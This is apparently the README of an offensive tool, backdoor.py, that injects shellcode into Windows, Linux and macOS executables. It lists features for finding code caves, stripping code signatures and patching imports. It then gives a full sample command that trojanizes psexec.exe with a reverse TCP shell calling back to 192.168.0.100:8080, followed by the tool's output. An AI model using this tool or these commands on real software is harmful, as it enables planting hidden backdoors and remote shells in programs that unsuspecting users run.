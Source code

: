 ./backdoor.py -h 
    Usage: backdoor.py [options]

    
---

##Features:

###PE Files

    Can find all codecaves in an EXE/DLL.
    By default, clears the pointer to the PE certificate table, thereby unsigning a binary.
    Can inject shellcode into code caves or into a new section.
    Can find if a PE binary needs to run with elevated privileges.
    When selecting code caves, you can use the following commands:
      -Jump (j), for code cave jumping
      -Single (s), for patching all your shellcode into one cave
      -Append (a), for creating a code cave
      -Ignore (i or q), nevermind, ignore this binary
    Can ignore DLLs
    Import Table Patching
    AutoPatching (-m automtic)
    Onionduke (-m onionduke)

###ELF Files

    Extends 1000 bytes (in bytes) to the TEXT SEGMENT and injects shellcode into that section of code.

###Mach-O Files
    Pre-Text Section patching and signature removal

###Overall
    
    The user can :
      -Provide custom shellcode.
      -Patch a directory of executables/dlls.
      -Select x32 or x64 binaries to patch only.
      -Include BDF is other python projects see pebin.py and elfbin.py

---------------------------------------------

Sample Usage:
---

###Patch an exe/dll using an existing code cave:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp_inline 

    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Looking for caves that will fit the minimum shellcode length of 402
    [*] All caves lengths:  (402,)
    ############################################################
    The following caves can be used to inject code and possibly
    continue execution.
    **Don't like what you see? Use jump, single, append, or ignore.**
    ############################################################
    [*] Cave 1 length as int: 402
    [*] Available caves:
    1. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e4d5 End: 0x2e6d0; Cave Size: 507
    2. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e6e9 End: 0x2e8d5; Cave Size: 492
    3. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e8e3 End: 0x2ead8; Cave Size: 501